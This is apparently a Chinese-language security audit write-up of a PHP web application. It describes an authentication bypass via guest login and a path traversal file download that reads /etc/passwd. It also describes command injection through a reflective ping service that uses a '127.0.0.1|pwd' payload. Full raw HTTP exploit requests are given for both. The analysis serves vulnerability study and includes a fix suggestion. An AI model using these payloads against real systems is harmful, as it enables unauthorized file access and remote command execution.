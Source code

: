 主要代码如上:首先获取输入值（json对象）然后使用getFunctionFromJson获取到服务对象后调用相应的服务对象中的函数方法并传递对应的参数  
  
如：  
```
{"name":"ping","serviceName":"SysManager","userTransaction":false,"param":["127.0.0.1"]}
```  
  
即为 调用SysManager类中的ping方法 并传递param值，如果使用该反射调用其他类执行漏洞后，生成的文件地址默认会在该地方，详细如下：  
#### 鉴权分析：  
  
该系统中的鉴权文件为：/public/session.php  
  
但是实际中很多都没有使用 到该鉴权文件，直接导致很多目录可用直接使用  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/K98U0WWMOQLzrIibBo82pkK9DmnClXpoHib2NDL49S3RbB7OdlVH3fIoXZqAc1cZDgm2plibVbBib7J6xfbdFyoBicg/640?wx_fmt=png&from=appmsg "")  
  
鉴权中 主要判断session中存的时间是否存在和是否到期 但是系统的登录页带游客登录 使用游客登录即可绕过  
#### 漏洞分析：  
##### 1、任意文件下载：  
  
该洞在根目录的 zipConfig.php中发现有引用，深入分析后可得。  
  
漏洞文件位置：developLog/downloadLog.php  
```
GET /developLog/downloadLog.php?name=../../../../etc/passwd HTTP/1.1
Host: xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=xxxx
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/K98U0WWMOQLzrIibBo82pkK9DmnClXpoHkfAOcpbcibwicc5XnlyLiaJE3vT6hzKvRfdcrCkNLwInxE16WicEjZG4bg/640?wx_fmt=png&from=appmsg "")  
##### 代码分析：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/K98U0WWMOQLzrIibBo82pkK9DmnClXpoH1uKziacvtPIR6VITQWmN3QOVachibnWT8pzJy1wmNGXnB1Xt3KSxhCRw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/K98U0WWMOQLzrIibBo82pkK9DmnClXpoHuVT4svMdsdFiaxL0Qdcuju1FwP79qWKOg3gaa7kQ0FAA9MmbAwL3Bgw/640?wx_fmt=png&from=appmsg "")  
  
该文件中的无授权引入，可直接利用。且只判断文件是否存在，无判断参数**$pathName**中的目录地址是否合法  
  
修复建议：引入鉴权、判断目录是否合法  
##### 2、命令执行  
  
执行位置：/classes/common/busiFacade.php类文件地址：/classes/manage/SysManager.php  
```
POST /classes/common/busiFacade.php HTTP/1.1
Host: xxxx
Content-Length: 130
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=xxxx
Connection: close

%7B%22name%22:%22ping%22,%22serviceName%22:%22SysManager%22,%22userTransaction%22:false,%22param%22:%5B%22127.0.0.1%7Cpwd%22%5D%7D
```  